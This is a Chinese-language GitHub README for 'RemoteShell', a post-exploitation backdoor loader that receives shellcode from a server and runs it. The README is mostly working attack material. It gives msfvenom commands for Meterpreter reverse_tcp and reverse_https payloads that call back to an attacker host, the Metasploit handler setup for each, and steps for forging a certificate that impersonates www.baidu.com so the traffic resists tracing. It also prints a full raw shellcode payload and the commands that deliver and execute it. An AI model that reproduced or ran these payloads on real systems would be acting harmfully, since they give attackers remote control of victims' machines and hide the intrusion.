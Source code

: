 # RemoteShell 远程Shell加载工具

<br>

<div align=center>
 
![image](https://user-images.githubusercontent.com/52789403/192442397-bc23a92a-41f9-4d54-990f-3697ba9fc701.png)
 
</div>

<br>

一款远程ShellCode后门加载运行程序，工具主要用于在后渗透阶段使用，可动态传输并执行服务端发送的ShellCode载荷，实现动态反弹。

 - 生成无加密ShellCode

非加密ShellCode代码主要用于测试可用性,由于数据包非加密,所以无法应对网络溯源.
```C
# 生成代码
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.93.128 lport=9999 -f c

[root@localhost ~]# msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.93.128 lport=9999 -f c

# 建立侦听器
[root@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(handler) > set lhost 192.168.93.128
msf6 exploit(handler) > set lport 9999
msf6 exploit(handler) > set EXITFUNC thread
msf6 exploit(handler) > exploit -j -z
```

 - 生成加密ShellCode

通过伪造证书克隆百度PEM文件,并应用于反向ShellCode代码中,此时代码在传输层已经被SSL加密.
```C
# 生成代码
[root@localhost ~]# openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
> -subj "/C=UK/ST=London/L=London/O=Development/CN=www.baidu.com" \
> -keyout www.baidu.com.key -out www.baidu.com.crt

[root@localhost ~]# cat www.baidu.com.key www.baidu.com.crt > www.baidu.com.pem
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https \
> lhost=192.168.93.128 lport=8443 PayloadUUIDTracking=true PayloadUUIDName=MyShell \
> HandlerSSLCert=/root/www.baidu.com.pem StagerVerifySSLCert=true \
> -f c -o /root/shell.c

# 建立侦听器
[root@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_https
msf6 exploit(handler) > set LHOST 192.168.93.128
msf6 exploit(handler) > set LPORT 8443
msf6 exploit(handler) > set HandlerSSLCert /root/www.baidu.com.pem
msf6 exploit(handler) > set StagerVerifySSLCert true
msf6 exploit(handler) > exploit -j -z
```

 - TCP反弹演示

用户通过`msfvenom`生成ShellCode代码，然后将其保存为`shellcode.log`文本文件。
```C
"\xb8\xda\x7e\x23\x13\xdb\xc3\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
"\x59\x31\x43\x14\x83\xeb\xfc\x03\x43\x10\x38\x8b\xdf\xfb\x33"
"\x74\x20\xfc\x2b\xfc\xc5\xcd\x79\x9a\x8e\x7c\x4d\xe8\xc3\x8c"
"\x26\xbc\xf7\xbd\xc7\xca\x8a\x95\x38\x7a\x20\xc0\x77\x44\x19"
"\x30\x16\x38\x60\x65\xf8\x01\xab\x78\xf9\x46\x7d\xf6\x16\x1a"
"\xf5\xaa\xf8\x10\x4b\x77\xf9\xf6\xc7\xc7\x81\x73\x17\x90\x05"
"\x30\x99\xcf\x6e\x80\x81\xbf\xfb\x49\x92\x3e\x28\xec\x1b\x34"
"\xf2\xde\x64\xfc\x81\x15\x10\xfe\x43\x64\xe6\xad\xaa\x48\xeb"
"\xac\xeb\x6f\x14\xdb\x07\x8c\xa9\xdc\xdc\xee\x75\x68\xc2\x49"
"\xfd\xca\x26\x6b\xd2\x8d\xad\x67\x9f\xda\xe9\x6b\x1e\x0e\x82"
"\x90\xab\xb1\x44\x11\xef\x95\x40\x79\xab\xb4\xd1\x27\x1a\xc8"
"\x01\x8f\xc3\x6c\x4a\x22\x15\x10\xb3\xbc\x1a\x4c\x23\x70\xd7"
"\x6f\xb3\x1e\x60\x03\x81\x81\xda\x8b\xa9\x4a\xc5\x4c\xb8\x5d"
"\xf6\x83\x02\x0d\x08\x24\x72\x07\xcf\x70\x22\x3f\xe6\xf8\xa9"
"\xbf\x07\x2d\x47\xca\x9f\x0e\x3f\x97\xdf\xe7\x3d\x28\xc7\xf8"
"\xc8\xce\x57\x57\x9a\x5e\x18\x07\x5a\x0f\xf0\x4d\x55\x70\xe0"
"\x6d\xbc\x19\x8b\x81\x68\x71\x24\x3b\x31\x09\xd5\xc4\xec\x77"
"\xd5\x4f\x04\x87\x98\xa7\x6d\x9b\xcd\xdf\x8d\x63\x0e\x4a\x8d"
"\x09\x0a\xdc\xda\xa5\x10\x39\x2c\x6a\xea\x6c\x2f\x6d\x14\xf1"
"\x19\x05\x23\x67\x25\x71\x4c\x67\xa5\x81\x1a\xed\xa5\xe9\xfa"
"\x55\xf6\x0c\x05\x40\x6b\x9d\x90\x6b\xdd\x71\x32\x04\xe3\xac"
"\x74\x8b\x1c\x9b\x06\xcc\xe2\x59\x21\x75\x8a\xa1\x71\x85\x4a"
"\xc8\x71\xd5\x22\x07\x5d\xda\x82\xe8\x74\xb3\x8a\x63\x19\x71"
"\x2b\x73\x30\xd7\xf5\x74\xb7\xcc\x06\x0e\xb8\xf3\xe7\xef\xd0"
"\x97\xe8\xef\xdc\xa9\xd5\x39\xe5\xdf\x18\xfa\x52\xef\x2f\x5f"
"\xf2\x7a\x4f\xf3\x04\xaf";
```

服务端就是攻击者，在本机执行如下命令，意思是使用TCP模式，侦听本地`8889`端口，一旦客户端上线则自动将`shellcode.log`传输给客户端。
```C
Shell> RemoteShell.exe RunServer --type tcp --listen 8889 --shellcode d://shellcode.log

[*] TCP服务端启动端口: 8889 正在等待上线.
```

此时客户端执行如下命令，意思是主动连接到服务端`127.0.0.1`下面的`8889`端口并执行ShellCode反弹。
```C
Shell> RemoteShell.exe RunClient --type tcp --address 127.0.0.1 --port 8889
```

GitHub项目地址：https://github.com/lyshark/RemoteShell
